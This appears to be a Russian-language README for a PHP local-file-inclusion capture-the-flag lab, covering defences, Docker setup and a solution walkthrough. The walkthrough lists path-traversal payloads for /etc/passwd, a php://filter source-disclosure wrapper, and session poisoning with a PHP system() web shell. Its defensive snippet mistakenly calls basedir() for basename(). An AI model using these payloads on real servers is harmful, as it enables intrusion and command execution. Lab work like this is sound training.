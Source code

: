 ﻿**Описание уязвимости**

Данная уязвимость возникает в приложениях, если пользователь может каким-то образом взаимодействовать с API файловой системы. В большинстве случаев web-приложение использует GET или POST параметры для передачи их содержимого одной из возможной функции включения файлов, но не ограничивается ими.

Функции в разных языках, которые могут приводить к LFI:

- **PHP**: `include()` / `include\_once()` , `file\_get\_contents()`, `fopen() / file()`
- **Java**: `import`
- **.NET**: `@Html.RemotePartial()` , `include`
- **NodeJS**: `res.render()`

  Кроме того, если web-сервер собирает какую-то информацию, например в /etc/apache2/access.log(в случае apache) или /var/log/nginx/access.log(в случае с nginx), то при наличии LFI, можно выставить в качестве значения заголовка User-Agent, какой- то код(в большинстве случаев на php), и включить log файл в следующем запросе. Если web сервер, настроен на обработку php файлов из директории, в которой находятся log файлы, то код выполнится.

**Способы защиты**

В большинстве случаев, необходимо убрать у пользователей возможность взаимодействовать с файловой системой, но если этого сделать нельзя, то тогда можно попытаться использовать следующие механизмы защиты.

- В случае с включением каких-то определённых файлов, можно использовать функцию basename(), которая принимает в качестве параметра любой путь, а возвращает название файла с его расширением. Конечный код должен выглядеть так:

`include basedir($\_GET['language'])`

- Необходимо выставлять значение таких переменных, как allow\_url\_fopen или allow\_url\_include на off, так как большинство из них позволяет использовать обёртки.
- Можно использовать переменную open\_basedir, которая не позволит злоумышленнику получить доступ к файлам, находящимся вне директории, прописанной в качестве значения данной переменной.
- Делать рекурсивную проверку на наличие последовательностей типа '../' или '..\'
```php
while (strpos($param\_value, '../') !== false) {
  $param\_value = str\_replace('../', '', $param\_value); 
}
```
- Использование WAF

**Запуск приложения**

Для запуска данного приложения необходимо:

- скачать репозиторий
- зайти в директорию с файлом docker-compose.yaml
- в случае, если не нужно менять параметры, зайти из терминала в директорию с конфигурационными файлами и прописать:
```shell
docker-compose up
```
- в файле docker-compose.yaml можно поменять значение порта с 8090 на любой другой
- в файле .env можно поменять значение флага на желаемое

**Описание уязвимости**

Необходимо получить доступ к файлу /flag.txt.

В данном приложении есть возможность выбора языка, на котором отобразится текст страницы. Реализована данная возможность с помощью передачи GET параметра lang в HTTP запросе к index.php. У пользователя есть возможность обращаться только к файлу index.php.

Приложение получает и обрабатывает GET параметры, убирая при этом последовательности символов "../". В результате запроса php генерирует html страничку, на которой в объект div с классом container происходит включение содержимого файла из GET параметра с помощью функции include . Кроме того в приложении происходит отслеживание информации о пользователе:

$path\_to\_lang\_file = $\_GET['lang']; $\_SESSION[![ref1]'language'] = $path\_to\_lang\_file;

Вектор атаки:

- при обращении на index.php в качестве значения GET параметра использовать php код
- посмотреть на имя cookie в Storage с помощью инструмента разработчика
- в следующем GET запросе в качестве значения GET параметра использовать файл абсолютный путь до файла /tmp/sess\_<имя-cookie>
- при следующих запросах необходимо повторить шаги 1 и 2 снова

**Решение**

Первое, что можно сделать - это попытаться найти path traversal в GET параметре, передавая в качестве значения следующие полезные нагрузки:
```http
../../../../../../../../../../../../etc/passwd ..././..././..././..././..././..././..././etc/passwd ....//....//....//....//....//....//....//....//etc/passwd %2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2![](./img/Aspose.Words.341f10a6-e995-4500-83c1-896da81956a4.007.png) E%2F%2E%2E%2F%2E%2E%2Fetc%2Fpasswd %252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E% 252F%252E%252E%252F%252E%252E%252F%252E%252E%252Fetc%252Fpasswd
```
В результате будет выводиться следующее:
![](./img/Aspose.Words.341f10a6-e995-4500-83c1-896da81956a4.009.jpeg)

Это может навести на мысль о том, что значение заголовка фильтруется.

Можно попытаться использовать php wrappers для получения index.php в base64:
```php
php://filter/convert.base64-encode/resource=./index.php
```
![](./img/Aspose.Words.341f10a6-e995-4500-83c1-896da81956a4.011.jpeg)

Получаем содержимое страницы в base64.

Используем любой доступный декодер и получаем следующее:

![](./img/Aspose.Words.341f10a6-e995-4500-83c1-896da81956a4.012.jpeg)

В данном файле имеется три подсказки:

- выставленное значение переменной open\_basedir(/app, /tmp - в первой директории хранятся файлы, во второй - сессии)
- комментарий о том, что сессии хранятся в директории tmp
- $\_SESSION['language'] = $path\_to\_lang\_file , где $path\_to\_lang\_file в случае обхода фильтрации будет содержать значение GET параметра.

  После этого можно сделать GET запрос с определённым значением:

  ![](./img/Aspose.Words.341f10a6-e995-4500-83c1-896da81956a4.013.jpeg)

  И проверить сохранилось ли это значение в сессии:

  ![](./img/Aspose.Words.341f10a6-e995-4500-83c1-896da81956a4.014.jpeg)

  Полезная нагрузка в данном случае будет следующая:
```http
http://localhost:8090/index.php?lang=<?php system($\_GET['cmd']);?>
http://localhost:8090/index.php?lang=/tmp/sess\_<имя-cookie>?cmd=url-encode(команда)
```
![](./img/Aspose.Words.341f10a6-e995-4500-83c1-896da81956a4.015.jpeg)

Видим содержимое корня и замечаем файлик flag.txt

![](./img/Aspose.Words.341f10a6-e995-4500-83c1-896da81956a4.016.jpeg)

Выводим содержимое файла и получаем флаг:

![](./img/Aspose.Words.341f10a6-e995-4500-83c1-896da81956a4.017.jpeg)

[ref1]: ./img/Aspose.Words.341f10a6-e995-4500-83c1-896da81956a4.006.png
